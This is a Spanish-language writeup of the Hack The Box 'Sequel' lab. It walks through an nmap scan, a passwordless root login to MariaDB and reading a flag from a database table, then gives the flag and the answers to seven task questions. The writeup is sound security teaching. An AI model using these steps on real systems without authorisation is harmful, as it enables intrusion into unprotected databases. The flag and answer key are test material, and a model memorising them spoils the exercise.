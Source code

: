 ```yaml
---
title: Sequel Writeup
date: 2023-05-19
categories: [Writeups, Hackthebox]
tags: [Starting Point, Linux, Very Easy]
image:
  path: ../../assets/img/post/sequel/sequel.jpg
  width: 800
  height: 500
  alt: Banner Sequel
---
```


Vamos a estar resolviendo la maquina sequel del starting point. 

Lo primero que vamos a hacer seria un ping a la ip de la maquina victima:
```bash
❯ ping -c 1 10.129.255.68
PING 10.129.255.68 (10.129.255.68) 56(84) bytes of data.
64 bytes from 10.129.255.68: icmp_seq=1 ttl=63 time=54.6 ms

--- 10.129.255.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.636/54.636/54.636/0.000 ms 

```
Le enviamos un paquete y recibimos el paquete de vuelta, esto quiere decir que la maquina esta activa.

Empezamos con el reconociento a la maquina victima, con nmap:
```bash 
❯ nmap -sC -sV 10.129.255.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 21:39 AST
Nmap scan report for 10.129.255.68 (10.129.255.68)
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.67 seconds
```
Miramos en nuestro escaneo que el servicio que esta corriendo en esta maquina es mysql, en este caso nos enfrentamos a una database.

Vamos a intetar conectarnos a esta base de datos con mysql:

```bash 
❯ mysql -h 10.129.255.68 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 56
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Al conectarnos a la database con el usuario root, ya tendriamos acceso a los datos.

Ahora listemos todas las base de datos que tenemos dentro de la maquina:

```sql
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.065 sec)
```

Miramos 4, vamos a selecionar htb para ver que info encotramos:
```sql
MariaDB [(none)]> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Listamos las tablas de esta:
```sql
MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (2 min 16.660 sec)
```

Quiero ver todo el contenido de la tabla config, para listarlo lo que hago es:
```sql
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.060 sec)
```
Aqui en los datos de la tabla podemos ver la flag, con esto tendriamos la parte practica completa.

Ahora pasamos a responder las preguntas de la maquina:

## Task 1. 
What does the acronym SQL stand for?
```text
Structured Query Language
```
## Task 2.

During our scan, which port running mysql do we find?
```text
3306
```
## Task 3.

What community-developed MySQL version is the target running?
```text 
MariaDB
```
## Task 4.

What switch do we need to use in order to specify a login username for the MySQL service?
```text
-u
```
## Task 5.

Which username allows us to log into MariaDB without providing a password?
```text
root
```
## Task 6.

What symbol can we use to specify within the query that we want to display everything inside a table?
```text
*
```
## Task 7.

What symbol do we need to end each query with?
```text
;
```
